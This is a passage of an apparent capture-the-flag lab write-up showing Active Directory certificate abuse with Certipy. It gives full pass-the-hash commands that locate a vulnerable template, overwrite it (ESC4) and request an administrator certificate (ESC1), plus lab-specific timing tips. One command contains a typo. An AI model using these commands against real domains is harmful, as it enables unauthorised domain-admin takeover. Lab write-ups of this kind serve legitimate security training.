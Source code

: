 ### Re-running Certipy As `ca_svc`: {#re-running-certipy-as-ca-svc}

-   As we are in control of `ca_svc` let's re-check if we have access to any vulnerable certificates to privesc:



```shell
certipy-ad find -vulnerable -u $user@$domain -hashes :$hash -dc-ip $box
```

-   {{< figure src="/ox-hugo/2025-01-14-074022_.png" >}}

-   So we can see there is a vulnerable cert available: `DunderMifflinAuthentication` and it's vulnerable to the ESC4 attack vector. As we are part of the `Cert Publishers` group we can perform this attack:
    -   {{< figure src="/ox-hugo/2025-01-14-074055_.png" >}}


### Performing ESC4 Certificate Attack To Get An Admin Certificate: {#performing-esc4-certificate-attack-to-get-an-admin-certificate}

-   Checking the certipy git repo it details what we need to do to perform this attack.
    -   <https://github.com/ly4k/Certipy?tab=readme-ov-file#esc4>

        > ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

        -   So we effectively perform an ESC1 attack by overwriting the template.



1.  **Backup original cert**:
    -   As we overwrite the cert to perform this attack I will make a backup.
        ```shell
         certipy template -username ca_svc@$domain -hashes :$hash -template DunderMifflinAuthentication -save-old
        ```
    -   {{< figure src="/ox-hugo/2025-01-14-074922_.png" >}}

2.  **Perform ESC1 attack on the cert**:
    -   We can specify an arbitrary SAN with the `-upn` or `-dns` parameter.
        -   This is the correct command, however read the section below if you get a DNS error.
            ```shell
                 ertipy req -username ca_svc@$domain -hashes :$hash -ca sequel-DC01-CA -target $machine.$domain -template DunderMifflinAuthentication -upn administrator@$domain -ns $box
            ```

            -   {{< figure src="/ox-hugo/2025-01-15-075421_.png" >}}

    -   +Troubleshooting+: If you get the error `CERTSRV_E_SUBJECT_DNS_REQUIRED`:
        -   {{< figure src="/ox-hugo/2025-01-14-150127_.png" >}}
        -   I got this error a lot and went down rabbit holes trying to fix it. Whereas it actually seems to be down to some sort cleanup script running on the host.
        -   **How to get it working**:
            -   I was able to get it working by quickly chaining step 1 (Backup Script) &amp; 2 (ESC1 Attack)
                -   If you look at the time stamp you can see that I had to run these 7 seconds apart to get the attack chain to work.
                -   {{< figure src="/ox-hugo/2025-01-15-075216_.png" >}}

